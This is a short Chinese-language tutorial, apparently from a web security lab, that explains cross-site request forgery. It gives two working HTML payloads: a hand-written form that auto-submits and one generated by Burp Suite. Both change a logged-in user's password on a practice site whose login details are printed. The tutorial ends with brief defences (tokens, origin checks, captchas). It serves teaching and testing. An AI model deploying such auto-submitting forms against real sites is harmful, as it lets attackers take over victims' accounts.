CSRF定义： 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF ， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

## 1、修改密码

登录信息：
user：csrf
passwd：a123456a

```http
http://www.webtester.com/csrf/csrf01.php?c=main
```

![image-20210415000453190](../acess/image-20210415000453190.png) 

**登录过的网站** 访问post-csrf.html就会触发payload 从而修改密码。

post-csrf.html

```html
<html> 
	<body>
	<form name="csrf" action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
		<input type=text name=password value="moonteams"></input>
		<input type="submit" value="submit" />
	</form>
	<script>
 		document.csrf.submit();
	</script>
	</body>
</html>
```

访问http://www.demo.com/post-csrf.html 就会修改密码

**2、测试方法**

用burpsuite生成csrf payload 

![image-20210415002924376](../acess/image-20210415002924376.png) 

csrf.html

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
      <input type="hidden" name="password" value="a123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

**3、防御方法** 

加上token 进行认证

判断页面来源

页面加验证码判断